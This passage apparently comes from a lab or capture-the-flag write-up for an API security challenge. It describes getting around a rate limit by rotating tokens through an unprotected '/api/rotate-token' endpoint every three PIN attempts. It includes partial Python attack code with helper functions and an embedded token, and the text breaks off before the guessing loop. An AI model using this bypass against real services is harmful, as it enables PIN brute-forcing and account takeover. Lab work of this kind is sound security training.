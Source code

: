 ![](imagens/2025-05-24_20-48_1.png)

After some testing, I noticed that the endpoint "/api/quantum-session" has rate-limit protection, but "/api/rotate-token" does not!

So, for brute forcing, what matters is an initial token from "/api/quantum-session", which every 3 attempts needs to be renewed through "/api/rotate-token", thus updating the Node and token.

For this, I took all these requests, organized a flow, and asked AI to help me write a python script with the sequence of instructions:

- An initial token that I would write directly in the script  
- Perform 3 PIN attempts  
- Token renewal via "/api/rotate-token" and check the Node used  
- Repeat the attempt and renewal flow until the PIN is found  

Script created:

```python
import requests
import time

BASE_URL = "https://rate-quantum.ac25.apisecuniversity.com"
INITIAL_TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpcCI6IjE1Ni41OS4xOTMuNDMiLCJ0b2tlbklkIjoiMWJjOTI5Yi04MTRlMmFlMSIsIm5vZGVJZCI6MiwiY3JlYXRlZCI6MTc0ODEzMDkwNDM3MiwiYXR0ZW1wdHMiOjAsImxhc3RBdHRlbXB0IjowLCJpYXQiOjE3NDgxMzA5MDQsImV4cCI6MTc0ODEzMjcwNH0.WyLHn7LJ0HSrAKYbZbYK5vTA97sJQZ3q2tpyQHrrvyU"  # seu token inicial aqui

HEADERS_COMMON = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Referer": f"{BASE_URL}/",
    "Origin": BASE_URL,
    "Sec-Fetch-Dest": "empty",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Site": "same-origin",
}

def rotate_token(current_token):
    headers = HEADERS_COMMON.copy()
    headers["X-Quantum-Token"] = current_token
    response = requests.post(f"{BASE_URL}/api/rotate-token", headers=headers)
    return response.json()["token"]

def get_node_id(token):
    headers = HEADERS_COMMON.copy()
    headers["X-Quantum-Token"] = token
    response = requests.post(f"{BASE_URL}/api/inspect-token", headers=headers)
    return response.json()["tokenInfo"]["nodeId"]
```